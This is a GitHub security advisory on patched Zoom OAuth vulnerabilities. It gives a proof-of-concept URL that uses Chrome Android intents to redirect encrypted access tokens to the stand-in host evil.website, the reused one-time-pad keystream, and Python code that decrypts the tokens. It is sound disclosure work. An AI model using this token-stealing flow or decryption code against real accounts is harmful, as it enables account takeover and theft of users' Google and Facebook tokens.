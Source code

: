 ```yaml
---
title: ' Zoom: Multiple OAuth vulnerabilities'
severity: High
ghsa_id: GHSA-6r3h-49f8-wwph
cve_id: ''
weaknesses: []
products:
- ecosystem: ''
  package_name: zoom.us
  affected_versions: <2020.04.29
  patched_versions: 2020.07.24
cvss: null
credits:
- github_user_id: sirdarckcat
  name: Eduardo' Vela" <Nava> (sirdarckcat)
  avatar: https://avatars.githubusercontent.com/u/33089?s=40&v=4
- github_user_id: RenwaX23
  name: Renwa
  avatar: https://avatars.githubusercontent.com/u/13907591?s=40&v=4
---
```


### Summary

The endpoints `https://zoom.us/signin/term?token` and `https://zoom.us/google/oauth?token` were vulnerable to multiple security vulnerabilities. An attacker could use these vulnerabilities to steal access tokens on Android.

This advisory encompasses a security vulnerability caused by an open redirect in one endpoint that included an encrypted access token, as well as an additional crypto vulnerability in another endpoint that could be used to decrypt the encrypted access tokens.

### Severity

Calculated as **High** by Google ([source](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:N/E:P/RL:O/RC:C)). The attacker needs to convince a victim to visit a malicious link on an Android phone. The attacker can then steal a token that allows them to login as the victim, and gain access to the victim's Zoom.us account, as well as access the victim's Facebook / Google access token.

This could allow an attacker to do anything the victim can do through the website, and for those users that had enabled the Google Calendar to Zoom integration, it would also allow the attacker to access private Google Calendar data.

### Proof of Concept

The attack could be performed by making the user visit the following URL:
```
https://accounts.google.com/o/oauth2/v2/auth?response_type=code&access_type=offline&client_id=849883241272-ed6lnodi1grnoomiuknqkq2rbvd2udku.apps.googleusercontent.com&scope=profile%20email&redirect_uri=https%3A%2F%2Fzoom.us%2Fgoogle%2Foauth&state=intent%3A%2F%2Fzoom.us%2Fgoogle%2Foauth?#Intent;scheme=https://evil.website/;end;
```

Which results in:
```
https://evil.website/zoom.us/google/oauth?&token=ENCRYPTED_TOKEN
```

The attacker then just takes `ENCRYPTED_TOKEN` and posts it here:
```
https://zoom.us/google/oauth?token=ENCRYPTED_TOKEN
```

Which then redirects to:
```
https://zoom.us/signin/term?token=ANOTHER_ENCRYPTED_TOKEN
```

At this point, `ANOTHER_ENCRYPTED_TOKEN` can be decrypted by XORing it with:
```
8da41d47d9989e0b1a2ae4a58029b732c64976ec8d1e9b81e2112ecac33dfc7f8563403302639656822252d21f70b8b046d5437ebcc44d93d2f355bd4664398d0b28f743bcf9376465e1c2964f9e04225ca115f5dda85d2f91ff350c4c1d2ba052b7a03ff5b71babf301bafe37bb6b1aa45a7588282f5b562c53d8316fd29e9b97d203575cba4aadd22e8a5818062b0beed7141ef34e177f8ed4a1e74936e97037bafdb9ce9b37be07d816
```

Using:
```python
def decrypt(unknown):
    unknown = base64.urlsafe_b64decode(unknown)
    return "".join([chr(ord(unknown[c]) ^ ord(key[c])) for c in range(min(len(unknown),len(key)))])
```

This would then leak the Facebook or Google access token to the attacker, and can also be used to impersonate the user on Zoom.us.

### Analysis

The token leak only works against Chrome on Android users. The attack could be performed by tricking users into visiting the following URL:
```
https://accounts.google.com/o/oauth2/v2/auth?response_type=code&access_type=offline&client_id=849883241272-ed6lnodi1grnoomiuknqkq2rbvd2udku.apps.googleusercontent.com&scope=profile%20email&redirect_uri=https%3A%2F%2Fzoom.us%2Fgoogle%2Foauth&state=intent%3A%2F%2Fzoom.us%2Fgoogle%2Foauth?#Intent;scheme=https://evil.website/;end;
```

The victim would then land on:
```
https://zoom.us/google/oauth?state=intent%3A%2F%2Fzoom.us%2Fgoogle%2Foauth%3F&code=SECRET&scope=email+profile+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.profile+openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email&authuser=0&prompt=none#Intent;scheme=https://evil.website/;end;
```

And subsequently on:
```
intent://zoom.us/google/oauth?&token=ENCRYPTED_TOKEN#Intent;scheme=https://evil.website/;end;
```

And finally:
```
https://evil.website/zoom.us/google/oauth?&token=ENCRYPTED_TOKEN
```

The flow using Facebook was also affected. The behavior presented using the `intent://` URL was [discovered by Renwa](https://twitter.com/RenwaX23/status/1255481313508950017). The documentation for this feature is described in the documentation of [Android intents for Chrome](https://developer.chrome.com/multidevice/android/intents).

It seems like the cipher used PKCS7 padding, since the following error was visible in the UI when sending a malformed token:
![image](https://user-images.githubusercontent.com/33089/88423865-cc319980-cdec-11ea-912b-33793672949d.png)

The endpoint didn't seem to use CBC, so decrypting the token wasn't possible through this padding oracle. However, the endpoint `zoom.us/google/oauth?token` redirected the user to `zoom.us/signin/term?token=ANOTHER_ENCRYPTED_TOKEN`, and in this case, the token was using a static stream cipher, or in other words, it was reusing a One-Time Pad (OTP).

Usually in order to break an OTP used more than once, one just XORs the ciphertext with a known plaintext, which returns the cipher stream, however, since in this case the attacker doesn't know their own access token, one can't get it this way. Instead, since we know that the plaintext has a limited alphabet (access tokens are encoded in base64 or base32), one can decode the token character by character by a process of elimination.

For example, if we have 4 tokens, which have at the Nth character the following values:
 - `encrypted_token1[n] = "b"` (which is `stream_cipher[n] ^ access_token1[n]`)
 - `encrypted_token2[n] = "/"` (which is `stream_cipher[n] ^ access_token2[n]`)
 - `encrypted_token3[n] = "F"` (which is `stream_cipher[n] ^ access_token3[n]`)
 - `encrypted_token4[n] = "V"` (which is `stream_cipher[n] ^ access_token4[n]`)

We can deduce the value of `stream_cipher[n]` the following way:
 - `t1t2 = chr(ord("b") ^ ord("/")) = "M" = access_token1[n] ^ access_token2[n]`
 - `t1t3 = chr(ord("b") ^ ord("F")) = "$" = access_token1[n] ^ access_token3[n]`
 - `t1t4 = chr(ord("b") ^ ord("V")) = "4" = access_token1[n] ^ access_token4[n]`

We know that `M` can only be the result of:
 - `chr(ord("y") ^ ord("4"))`
 - `chr(ord("5") ^ ord("x"))`
 - `chr(ord("t") ^ ord("9"))`
 - `chr(ord("7") ^ ord("z"))`
 - `chr(ord("8") ^ ord("u"))`

We can do this calculation for all characters in the allowed alphabet with the following code:
```python
import base64
options = {}
for c in range(0,255):
  for d in range(0,255):
    c_e = base64.urlsafe_b64encode(chr(c))[0]
    d_e = base64.urlsafe_b64encode(chr(d))[0]
    res = chr(ord(c_e)^ord(d_e))
    if res not in options:
      options[res] = {}
    options[res][c_e] = d_e
    options[res][d_e] = c_e
```

Once we have this, we can obtain the value of `access_token1[n]` and `stream_cipher[n]` with:
```python
list(set(options[t1t2]) & set(options[t1t3]) & set(options[t1t4])) == ["u"] # access_token1[n]
chr(ord("u")^ord("b")) == "\x17" # stream_cipher[n]
```

By repeating this for all positions of the encrypted access token, one can reverse the value of the stream cipher, and decrypt the access token. The "One-Time" pad was:
```
8da41d47d9989e0b1a2ae4a58029b732c64976ec8d1e9b81e2112ecac33dfc7f8563403302639656822252d21f70b8b046d5437ebcc44d93d2f355bd4664398d0b28f743bcf9376465e1c2964f9e04225ca115f5dda85d2f91ff350c4c1d2ba052b7a03ff5b71babf301bafe37bb6b1aa45a7588282f5b562c53d8316fd29e9b97d203575cba4aadd22e8a5818062b0beed7141ef34e177f8ed4a1e74936e97037bafdb9ce9b37be07d816
```